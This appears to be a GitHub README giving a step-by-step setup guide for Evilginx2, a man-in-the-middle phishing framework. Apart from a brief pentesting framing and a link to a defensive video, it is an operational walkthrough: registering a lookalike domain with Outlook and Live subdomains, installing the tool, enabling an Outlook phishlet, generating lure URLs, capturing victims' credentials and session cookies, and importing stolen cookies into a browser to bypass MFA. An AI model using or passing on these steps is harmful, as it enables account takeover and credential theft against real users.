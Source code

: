 # Evilginx Setup Guide

EvilGinx is a man-in-the-middle attack framework designed to capture credentials and session cookies from users interacting with phishing sites. This tool can be used for penetration testing and security assessments, allowing security professionals to simulate phishing attacks and understand the techniques attackers might employ.
Official Documentation can be found [here](https://help.evilginx.com/docs/intro)

### Protecting Against Phishing Attacks

To learn how web developers can protect against MFA phishing attacks and the use of Evilginx, watch this video: [How Web Developers Can Protect Websites](https://www.youtube.com/watch?v=C-Fh4sIdY8c).

### Creating Phishlets

For guidance on creating phishlets for MFA bypass, refer to this resource: [Creating Phishlets](https://research.aurainfosec.io/pentest/hook-line-and-phishlet/).

## Usage

**IMPORTANT!** Make sure that there is no service listening on ports `TCP 443`, `TCP 80` and `UDP 53`. You may need to shut down Apache or Nginx and any service used for resolving DNS that may be running. **evilginx2** will notify you on launch if it fails to open a listening socket on any of these ports.

By default, **evilginx2** will look for phishlets in `./phishlets/` directory and later in `/usr/share/evilginx/phishlets/`. To specify a custom path for phishlets, use the `-p <phishlets_dir_path>` parameter when launching the tool.

By default, **evilginx2** will look for HTML templates in `./templates/` directory and later in `/usr/share/evilginx/templates/`. To specify a custom path for HTML templates, use the `-t <templates_dir_path>` parameter when launching the tool.

More Tips and Tricks can be found [here](https://github.com/An0nUD4Y/Evilginx2-Phishlets)

### Infrastructure setup 

Buy a domain(NameCheap has cheap domains). Transfer domain to your VPC provider. Create "A" record. 

### NameCheap domain transfer
>>>

### DigitalOcean DNS Records
>>>
### DNS Records

Configure your DNS records as follows:
```
A    account.identity-access.online  
A    *.identity-access.online  
A    outlook.identity-access.online  
A    www.identity-access.online  
A    live.identity-access.online  
A    identity-access.online  
```

#### Installing from source

```
sudo apt-get -y install git make
git clone https://github.com/hash3liZer/evilginx2.git
cd evilginx2
make
```

You can now either run **evilginx2** from local directory like:
```
sudo ./evilginx2
```
or install it globally:
```
sudo make install
sudo evilginx
```

## Installing with Docker

```bash
docker build . -t evilginx2
```
```bash
docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2
```

Phishlets are loaded within the container at `/app/phishlets`, which can be mounted as a volume for configuration.


## Evilginx Commands to Get Started

Set up your server's domain and IP using the following commands:
```bash
config ipv4 external <publicIP>
config domain <yourdomain.com(ex:identity-access.online)>
```

Set up the phishlet you want to use.
```bash
phishlets hostname outlook <yourdomain.com(ex:identity-access.online)>
```

You can now `enable` the phishlet, which will initiate the automatic retrieval of Let's Encrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```bash
phishlets enable outlook
```

Block unauthorized bots/scanners:
```bash
blacklist unauth
```

Your phishing site is now live. Think of the URL where you want the victim to be redirected upon successful login, and get the phishing URL like this (the victim will be redirected to `https://www.google.com`):
```bash
lures create linkedin
lures edit 0 redirect_url https://www.google.com
lures get-url 0
```

Running phishlets will only respond to phishing links generated for specific lures, so any scanners that scan your main domain will be redirected to the URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid lure phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```bash
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```bash
sessions <id>
```

The captured session cookie can be copied and imported into the Chrome browser using the [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.

**Important!** If you want **evilginx2** to continue running after you log out from your server, you should run it inside a `screen` or `tmux` session.

### Alternative Installation Steps

```bash
apt-get update
apt-get upgrade -y
sudo apt install git golang-go -y
git clone https://github.com/kgretzky/evilginx2
cd evilginx2
go build
cd phishlets
git clone https://github.com/ArchonLabs/evilginx2-phishlets.git
cd evilginx2-phishlets/phishlets
mv ./* ../../
cd ../../
./evilginx2
config ipv4 external <publicIP>
config domain identity-access.online
phishlets hostname outlook identity-access.online
phishlets enable outlook
blacklist unauth
lures create outlook 
lures 
lures get-url 0
```

## Local Testing 
Start Evilginx with -developer command-line argument and it will switch itself into developer mode.
In this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
Evilginx will generate a new root CA certificate when it runs for the first time. You can find the CA certificate at $HOME/.evilginx/ca.crt or %USERPROFILE%\.evilginx\ca.crt. Import this certificate into your certificate storage as a trusted root CA and your browsers will trust every certificate, generated by Evilginx.
Since this feature allows for local development, there is no need to register a domain at domain registrars. Just use any domain you want and set the server IP to 127.0.0.1 or your LAN IP:
    ```bash
config domain anydomainyouwant.com
config ip 127.0.0.1
    ```
It is important that your computer redirects all connections to phishing sites, to your local IP address. In order to do that, you need to modify the hosts file.
First, generate the hosts redirect rules with Evilginx, for the phishlet you want:
: phishlets hostname twitter twitter.anydomainyouwant.com
: phishlets get-hosts twitter
    ```bash
127.0.0.1 twitter.anydomainyouwant.com
127.0.0.1 abs.twitter.anydomainyouwant.com
127.0.0.1 api.twitter.anydomainyouwant.com
    ```
Copy the command output and paste it into your hosts file. The hosts file can be found at:
Linux: /etc/hosts
Windows: %WINDIR%\System32\drivers\etc\hosts
Remember to enable your phishlet and you can start using Evilginx locally (can be useful for demos too!).

    ```bash
    # create self-signed cert
    openssl req -x509 -newkey rsa:2048 -keyout *.identity-access.online -out *.identity-access.online.crt -days 365 -nodes
    mv *.identity-access.online.crt /phishlets
    mv *.identity-access.online.crt /phishlets
    
    ./evilginx -developer
    config autocert off
    test-certs
    ```
